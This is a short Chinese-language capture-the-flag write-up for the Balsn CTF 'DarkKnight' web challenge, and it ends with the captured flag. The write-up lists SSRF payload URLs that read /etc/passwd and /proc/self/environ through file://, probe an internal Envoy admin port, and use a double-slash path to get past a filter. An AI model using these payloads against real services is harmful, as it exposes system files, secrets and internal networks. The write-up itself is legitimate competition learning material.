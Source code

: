 # DarkKnight
## 題目

![image](https://user-images.githubusercontent.com/57281249/142795163-a834a3c8-d34a-4aed-bcfc-9c3ba5520a99.png)

## 解題
進來看到這個
![image](https://user-images.githubusercontent.com/57281249/142795197-a049ab6f-1d15-43d9-b417-54a3ee54db4f.png)

試著 http://proxy.balsnctf.com/query?site=http://www.google.com
![image](https://user-images.githubusercontent.com/57281249/142795222-e11076c6-6fa7-493e-9dd0-8b40d8f3adf6.png)

試著 ssrf  http://proxy.balsnctf.com/query?site=file:///etc/passwd
![image](https://user-images.githubusercontent.com/57281249/142795236-522dd390-14cb-442b-ac1d-7221e7fb1ec5.png)

試著 http://proxy.balsnctf.com/query?site=file:///proc/self/environ
![image](https://user-images.githubusercontent.com/57281249/142795255-13689cc5-9a1f-4e64-9f81-b986e01af138.png)

試著 http://proxy.balsnctf.com/query?site=file:///proc/net/tcp
![image](https://user-images.githubusercontent.com/57281249/142795276-6d3bd2de-7fd7-4077-bc8f-d2278f4cb6f2.png)

試著 http://proxy.balsnctf.com/query?site=http://127.0.0.1:15000
![image](https://user-images.githubusercontent.com/57281249/142795294-50e342dc-500b-43ec-8241-668dd110e0b0.png)

試著 http://proxy.balsnctf.com/query?site=http://127.0.0.1:15000/stats
![image](https://user-images.githubusercontent.com/57281249/142795368-4b9539c1-702b-4209-af46-7158f9f4362a.png)

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307
![image](https://user-images.githubusercontent.com/57281249/142795389-217d6af0-0418-4c8b-ae17-05aa3bcd09ee.png)

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307/flag

炸
![image](https://user-images.githubusercontent.com/57281249/142795401-d274d047-1b98-4180-bc4c-60860610af34.png)

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307//flag

過
![image](https://user-images.githubusercontent.com/57281249/142795421-f5b07089-8ff3-4796-b1e3-f02de4d24734.png)

## flag
BALSN{default_istio_service_mesh_envoy_configurations}
